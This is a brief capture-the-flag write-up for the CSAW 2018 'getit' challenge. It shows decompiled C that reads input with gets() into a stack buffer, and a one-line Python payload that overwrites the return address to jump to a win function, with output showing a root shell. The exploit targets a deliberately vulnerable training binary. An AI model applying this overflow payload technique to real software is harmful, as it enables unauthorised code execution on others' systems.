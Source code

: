 # CSAW 2018 getit

```PIE``` and ```canary``` are disabled. Easy overflow and call to win function. 

```c
  puts("Do you gets it??");
  gets(local_28);
  return 0;
```

```bash
[root@pwn:~/csaw18_getit]$ (python -c 'print "A" * 32 + "BBBBBBBB"  + "\xb6\x05\x40\
x00\x00\x00\x00\x00"'; cat -) | ./get_it 
Do you gets it??
whoami
root
```
